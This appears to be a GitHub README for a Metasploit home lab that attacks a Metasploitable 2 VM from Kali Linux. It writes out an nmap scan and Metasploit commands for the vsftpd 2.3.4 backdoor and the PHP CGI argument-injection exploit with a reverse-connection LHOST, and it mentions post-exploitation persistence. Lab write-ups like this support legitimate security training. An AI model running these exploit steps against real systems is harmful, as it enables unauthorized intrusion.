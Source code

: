 <h1>Metasploit Cybersecurity Home Lab</h1>

<h2>Description</h2>
<p>In this lab, I set up and configured Metasploit to exploit vulnerabilities in a virtual environment using VirtualBox and Kali Linux. This setup simulates various attack vectors</p>

<h2>Environments Used</h2>
<ul>
    <li><b>Host Operating System</b>: Windows 11</li>
    <li><b>Virtual Machines</b>:
        <ul>
            <li>Metasploitable 2</li>
            <li>Kali Linux</li>
        </ul>
    </li>
</ul>

<h2>Lab Walk-through</h2>

<h3>Setting Up the Environment</h3>
<ol>
    <li><b>Downloading Metasploitable 2</b>: Obtain the Metasploitable 2 virtual machine.</li>
    <li><b>Setting Up Virtual Machines</b>: Import the Metasploitable 2 virtual machine into VirtualBox.</li>
</ol>

<h3>Configuring VirtualBox VM</h3>
<p>Once imported, configure the network settings of both Kali Linux and Metasploitable 2 to be on the same internal network, ensuring they can communicate with each other.</p>

<h3>Nmap Scanning</h3>
<p>I used Nmap to scan the target machine (Metasploitable 2) for open ports and services. This helps in identifying potential vulnerabilities that can be exploited.</p>

<pre><code>sudo nmap -sV -O 10.0.2.4</code></pre>

<p align="center">
    <img src="img/Screenshot 2024-06-24 184306.png">


<h3>Launching Metasploit on Kali Linux</h3>
<ol>
    <li><b>Starting Metasploit Console</b>:</li>
</ol>

<pre><code>msfconsole</code></pre>

<p align="center">
    <img src="data:image/png;base64,{{screenshot1_base64}}" alt="Metasploit Console"/>
</p>

<h3>Exploiting Vulnerabilities</h3>

<ol>
    <li><b>Using vsftpd 2.3.4 Backdoor</b>:</li>
</ol>

<pre><code>
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.0.2.4
exploit
</code></pre>

<p align="center">
    <img src="data:image/png;base64,{{screenshot2_base64}}" alt="vsftpd Exploit"/>
</p>

<ol start="2">
    <li><b>Directory Scanning and PHP CGI Argument Injection</b>:</li>
</ol>

<pre><code>
use auxiliary/scanner/http/dir_scanner
set RHOSTS 10.0.2.4
exploit

use exploit/multi/http/php_cgi_arg_injection
set RHOSTS 10.0.2.4
set LHOST 10.0.2.5
exploit
</code></pre>

<p align="center">
    <img src="data:image/png;base64,{{screenshot3_base64}}" alt="Directory Scanner and PHP CGI Injection"/>
</p>

<h2>Additional Steps</h2>
<ul>
    <li><b>Enumerating Services and Vulnerabilities</b>: Use Metasploit's auxiliary modules to scan and identify services running on the target.</li>
    <li><b>Post-exploitation</b>: Gather information and maintain access on the compromised system.</li>
</ul>

</body>
</html>
<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
-->
